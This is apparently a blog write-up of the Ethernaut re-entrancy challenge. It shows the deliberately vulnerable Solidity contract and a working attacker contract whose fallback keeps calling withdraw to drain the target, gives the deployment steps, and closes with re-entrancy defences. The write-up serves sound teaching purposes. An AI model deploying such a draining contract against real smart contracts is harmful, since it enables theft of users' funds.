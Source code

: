 +++
title = "Reeintrancy - Ethernaut"
date = "2022-02-01"
author = "Dimitris Vagiakakos && Stavros Gkinos"
+++
On this challenge, we will learn how the infamous DAO occured and how to prevent such an incident to occur again. Ethereum splitted into two Blockchains, Ethereum and Ethereum Classic because of a DAO Attack.
So we have this smart-contract and we have to withdraw all of it's ether:
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```
Re-entrancy happens in single-thread computing environments, when the execution stack jumps or calls subroutines, before returning to the original execution.
Firstly, we create a smart-contract called ReentranceAttack.sol with which we are going to attack the main smart-contract shown above:

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.10;

import './Reentrance.sol';

contract ReentranceAttack {

  Reentrance target;
  uint public amount = 1 ether;

  constructor(address payable _targetAddr) public payable {
    target= Reentrance(_targetAddr);
  }

  function donateToTarget() public {
    target.donate.value(amount).gas(4000000)(address(this));   }

  fallback() external payable {
    if (address(target).balance !=0){
      target.withdraw(amount);
    }
  }
}
```

We need to take into account these two criterias:
* Fallback functions can be called by anyone and execute malicious code.
* Malicious external contracts can abuse withdrawals.

The expoitation was done by following these steps:

* We deploy ReentranceAttack.sol with a value of 1 ether and as an address parameter we input the Reentrance.sol address which we find from the console by typing "contract.address".
*  We donate 1 ether to the  Reentrance.sol  by calling the function donateToTarget() from the ReentranceAttack.sol in order to add ReentranceAttack.sol address into balances.

```
mapping(address => uint) public balances;
```
Now that we are into balances, we satisfy the requirement of withdraw() function.
* By using the Remix IDE, we trigger the fallback() function from the ReentranceAttack.sol which calls the withdraw() function from the Reentrance.sol. Now the withdraw() function is called and we satisfy the requirement of it, it will call back the fallback() function of the ReentranceAttack.sol and this loop will continue until the balance of the Reentrance.sol is zero.
*
There are multiple ways to protect your smart-contract in order to prevent issues like DAO Attack to happen.
* The order of execution really matters in programming, specially in Solidity. If we have to take external function calls, making the call must be the last thing to do. Even better,if we can invoke transfer in a separate function.
* Include a mutex to prevent re-entrancy. For example we can create a Boolean lock variable or a binary variable to signal execution depth.
* When we have to use function modifiers to check invariants, we should be extremely careful as modifiers are executed at the start of the function. 
* Use transfer to move funds out of a smart-contract, as low level functions like call and send just return false but don't interrupt the execution flow when receiving contract fails.

---
If you want to learn more about Smart Contract Security, please check our paper and eCourses:
## Smart-Contract Security:

* [Smart Contract Security - Educational eLearning Series in Greek on YouTube - Click Here](https://www.youtube.com/playlist?list=PLZa7COjIxKWzLcMxI9cRNSzOtdR0xvXB7)


* [Smart Contract Security - Educational eLearning Series in Greek on LBRY - Click Here](https://odysee.com/@TuxHouse:1/Ethereum-Hacking-Series-%28Greek%29:b?r=D1QgYeP81GoKPkW5T1jP96zxGA4GMfho&lid=b0b540e62d96ed2811b776519fc460617e4c40747)
